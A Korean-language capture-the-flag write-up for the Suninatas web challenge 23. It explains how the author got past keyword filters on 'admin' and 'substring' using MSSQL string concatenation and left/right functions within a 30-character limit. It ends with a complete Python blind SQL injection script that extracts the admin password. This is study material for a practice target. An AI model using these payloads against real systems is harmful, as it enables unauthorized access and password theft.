

Suninatas 23 Write-Up
---------------------

## 문제 분석

이번 문제의 경우 이전 22번 문제에서 변형된 문제로 admin이라는 단어가 필터링에 추가됨과 동시에
substring과 같이 blind SQL Injection에 있어서 중요한 keyword들이 필터링 되었습니다.



문제의 풀이 조건의 경우 이전 문제와 동일하였습니다. 이번 문제의 핵심은 admin 문자와 substring과 같은
 keyword를 대체할 방법을 찾는 것이었습니다.

* * *

## 문자열 우회

먼저 admin 문자열을 우회하는 방법에 대하여 찾아보았습니다. 우회 방법을 찾을 때 0x나 chr과 같은 keyword의 경우 필터링 되어 있기 때문에 ascii code와 같은 방식은 제외하고 찾아보았습니다.

가장 먼저 시도해본 방법은 concat 함수를 이용한 방법이었습니다. concat 함수의 경우 문자열을 합칠 수 있는 함수로 mysql에서 사용 가능한 함수이나 결과값을 얻을 수 없었습니다. 이후에 풀이를 보고 알았지만 문제 시스템이 mssql로 구성되어 있었다고 합니다.

다음으로 시도하였던 방법은 +를 이용한 우회였습니다. 이는 mssql에서 사용 가능한 우회였으나 이를 사용하여 시도하였음에도 실패한 이유를 분석한 결과 쿼리를 시도할 때 url에 직접 입력하였는데 이 과정에서 + 문자가 url encoding에서 공백을 의미하는 +로 사용되어 발생한 문제로 판단되었습니다. login form에서 시도하였을 때는 정상적으로 동작하는 것을 확인할 수 있었습니다.

* * *

## substring 우회

admin을 우회하는 것에 성공하였기에 다음으로는 substring을 대체할 방법이 필요하였습니다. substring을 
대체할 수 있는 방법으로 left와 right 함수를 이용한 방법이 있단 것을 알 수 있었으나 풀이를 통해 알게 
된 사실은 Query가 30자가 넘게 될 경우 SQL Injection으로 판단하여 차단된다는 것이었습니다.

따라서 30자가 넘지 않도록 Query문을 구성할 필요가 있었기에 제약 사항이 많았습니다. 결과적으로 
left 함수로 받아온 문자열을 right 함수를 이용하여 가장 맨 끝 글자를 가져와 비교하는 식으로 코드를 작성하게 되었습니다.

``` python
#!/usr/bin/python

import requests as req

url = "http://suninatas.com/challenge/web23/web23.asp"
cookies = { "ASP.NET_SessionId":"xn25l4eqiwhk1zdpvf54polm" }
maxpw = 15
pwlen = 0
pw = ""
params = { "pw":"SQLi" }

for a in range(1, maxpw+1):
    params["id"] = "adm'+'in' and len(pw)={}--".format(a)
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            print("Password Length is {}".format(a))
            pwlen = a
            break

for i in range(32, 128):
    params["id"] = "adm'+'in' and left(pw,1)='{}'--".format(chr(i))
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
        pw = chr(i)
        break

for i in range(1, pwlen+1):
    for j in range(32, 128):
        params["id"] = "'or right(left(pw,{}),1)='{}'--".format(i, chr(j))
        response = req.get(url, cookies = cookies, params = params)
        print("admin password is {}{}".format(pw, chr(j)), end='\r')
        if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            if i == 1:
                continue
            pw += chr(j)
            break
        
print("admin password is {}".format(pw))
```
